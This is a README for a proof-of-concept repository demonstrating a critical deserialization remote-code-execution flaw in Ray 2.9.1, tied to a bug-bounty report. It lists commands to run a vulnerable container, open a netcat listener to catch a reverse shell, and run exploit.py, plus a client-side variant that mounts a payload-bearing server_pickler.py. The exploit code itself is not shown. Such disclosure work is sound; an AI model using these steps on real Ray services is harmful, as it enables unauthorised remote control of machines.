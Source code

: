 # Ray 2.9.1 Deserialization Demo (Reverse Shell) - CWE-502

Report: https://huntr.com/bounties/ce6cb61c-fce1-406f-80e2-f3b7cdddbd6f

Resources:
   - https://docs.ray.io/en/latest/ray-overview/installation.html
   - https://github.com/ray-project/ray


## Overview
### Description
This is an RCE for Ray 2.9.1. The exploit is a deserialization attack that allows an attacker to execute arbitrary code on the target machine. The attack is performed by sending a malicious serialized object to the Ray service.

### Rating
The vulnerability has been rated as `Critical` with a CVSS score of `9.8`. This is because the vulnerability is remotely exploitable and allows an attacker to execute arbitrary code on the target machine.


## Commands - Server Exploit
### Terminal 1 - Start the Service

Pull the image from dockerhub using `docker pull rayproject/ray:2.9.1` or build the image using the provided `Dockerfile`. Note, if the image is pulled from dockerhub, then the client python version must be `>=3.8` and the `ncat` command must be installed manually.

```bash
docker build -t ray-cwe-demo:2.9.1 --no-cache .
docker run -it -p 10001:10001 -p 10002:10002 -p 10003:10003 -p 10004:10004 -p 4321:4321 --add-host host.docker.internal:host-gateway --shm-size=4.43gb ray-cwe-demo:2.9.1
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack
```bash
python3.8 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```

## Commands - Client Exploit
### Terminal 1 - Start the Service

Here we mount a modified version of `server_pickler.py` to the container. The modified file contains the malicious payload that will be executed on the client.

```bash
docker run -it \
  -p 10001:10001 \
  -p 10002:10002 \
  -p 10003:10003 \
  -p 10004:10004 \
  -p 4321:4321 \
  -v "$(pwd)/server_pickler.py:/home/ray/anaconda3/lib/python3.8/site-packages/ray/util/client/server/server_pickler.py" \
  --add-host host.docker.internal:host-gateway \
  --shm-size=4.43gb \
  ray-cwe-demo:2.9.1
```

### Terminal 2 - `netcat` Listener
```bash
nc -lvp 4321
```

### Terminal 3 - Attack
```bash
python3.8 -m venv .venv
source .venv/bin/activate
pip install -r requirements.txt
python exploit.py
```
